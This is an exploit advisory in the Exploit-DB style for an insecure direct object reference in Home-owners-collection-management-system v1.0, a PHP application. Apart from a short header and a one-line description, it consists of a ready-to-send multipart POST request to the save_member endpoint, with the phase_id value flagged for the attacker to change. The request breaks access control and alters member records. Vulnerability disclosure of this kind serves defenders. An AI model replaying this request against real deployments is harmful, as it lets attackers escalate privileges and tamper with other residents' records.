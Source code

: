 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a phase who is deleted to a member(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_member HTTP/1.1
...

------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="firstname"

Mark
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="middlename"

D
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="lastname"

Cooper
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="contact"

09123456789
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="phase_id"

2(CHANGE HERE)
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="block"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="lot"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp--

```